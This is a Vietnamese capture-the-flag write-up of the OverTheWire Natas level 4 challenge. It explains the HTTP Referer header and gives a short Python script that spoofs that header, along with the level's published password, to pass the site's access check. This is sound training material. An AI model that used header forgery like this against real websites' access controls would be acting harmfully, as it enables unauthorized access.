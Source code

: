 # Natas4

![1](image/1.png)

- Mở đầu file là 1 dòng thông báo

- Thử click vào `Refresh page` xem có gì đặc biệt không

![2](image/2.png)

- Thấy có vẻ link hiện tại được lấp vào vị trí còn trống `""`, thôi kệ nó, đọc kỹ thử

- Đọc dòng thông báo thì có vẻ đề yêu cầu ta phải đi từ `"http://natas5.natas.labs.overthewire.org/"` chứ không phải từ `"http://natas4.natas.labs.overthewire.org/"`

- Nghe hao hao giống `Referer` trong `Requests Headers`

- `Referer` lưu lại nơi mà bạn đã ở trước khi bạn chuyển hướng qua bên này

- Đọc thêm 1 chút về `Referer`: [Link](https://vi.wikipedia.org/wiki/HTTP_referer)

- Mạn phép giải bài này và các bài khác bằng `python` để tăng thêm phần hấp dẫn, sẽ hạn chế xài `burp suite`

- Code của mình:

```
	import requests
	import re

	username = 'natas4'
	password = 'Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ'

	url = 'http://%s.natas.labs.overthewire.org/'%username

	headers = {
		'Referer' : 'http://natas5.natas.labs.overthewire.org/'
	}

	response = requests.get(url, auth = (username, password), headers = headers)

	print(response.text)
```

- Chỉ đơn giản là thêm `Referer` trong `headers` là xong

![3](image/3.png)
